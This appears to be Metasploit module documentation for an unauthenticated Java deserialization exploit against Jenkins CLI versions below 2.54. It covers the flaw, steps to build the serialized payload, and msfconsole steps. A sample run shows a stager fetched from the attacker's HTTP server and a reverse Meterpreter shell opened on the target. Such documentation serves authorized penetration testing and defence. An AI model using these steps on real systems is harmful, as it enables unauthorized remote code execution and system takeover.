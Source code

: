 ## Vulnerable Application

  An unauthenticated Java object deserialization vulnerability exists
  in the CLI component for Jenkins versions below `v2.54`.

  The `readFrom` method within the `Command` class in the Jenkins
  CLI remoting component deserializes objects received from clients without
  first checking / sanitizing the data. Because of this, a malicious serialized
  object contained within a serialized `SignedObject` can be sent to the Jenkins
  endpoint to achieve code execution on the target.

### Installation

  Vulnerable versions of Jenkins can be downloaded from [here](https://get.jenkins.io/war-stable/).
  Additionally, a [jdk](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html) will need to be installed on the target system.

  To start Jenkins, navigate to the location of the downloaded `war` file and execute:
  `java -jar <jenkins-file>.war`. To test if Jenkins is properly working, the CLI component
  can be accessed by navigating to `http://localhost:8080/cli`.

### How to Produce Binary Blob from PoC

  Generating the serialized object first requires the `Payload.java` file
  located in the `data/exploits/CVE-2017-1000353/` folder.

  1. Obtain a vulnerable version of Jenkins
     `wget https://get.jenkins.io/war-stable/<version>/jenkins.war`
  2. Create a folder to extract the Jenkins files into
     `mkdir libs/`
  3. Extract the contents of the war file into the newly created folder
     `cd libs/ && jar -xf ../jenkins.war`
  4. Assuming the `Payload.java` file is located in the same location as `jenkins.war`,
     compile the file, ensuring the Jenkins libraries are in the classpath
     `cd ../ && javac -cp ".:./libs/WEB-INF/lib/*" Payload.java`
  5. To execute, supply the name of the outfile for the serialized object
     and a placeholder command (Note. the command gets patched in the exploit module)
     `java -cp ".:./libs/WEB-INF/lib/*" Payload serial_obj.ser 'touch /tmp/test'`
  6. The serialized object will be located in the outfile you supplied in the
     previous step

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/jenkins_cli_deserialization`
  4. Do: `set RHOST <ip>`
  5. Do: `run`
  6. You should get a shell.

## Options

  No options

## Scenarios
### Jenkins `v2.32.1` on Ubuntu Linux 18.04.1`

```
msf6 > use exploit/linux/http/jenkins_cli_deserialization
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/jenkins_cli_deserialization) > set rhost 192.168.37.149
rhost => 192.168.37.149
msf6 exploit(linux/http/jenkins_cli_deserialization) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(linux/http/jenkins_cli_deserialization) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Jenkins version 2.32.1 detected
[*] Sending payload...
[*] Using URL: http://0.0.0.0:8080/JMpXWoK
[*] Local IP: http://192.168.1.141:8080/JMpXWoK
[*] Client 192.168.37.149 (curl/7.58.0) requested /JMpXWoK
[*] Sending payload to 192.168.37.149 (curl/7.58.0)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Sending stage (976712 bytes) to 192.168.37.149
[*] Meterpreter session 7 opened (192.168.37.1:4444 -> 192.168.37.149:44748) at 2020-09-10 18:01:34 -0500
[*] Server stopped.

meterpreter > getuid
Server username: space @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.37.149
OS           : Ubuntu 18.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
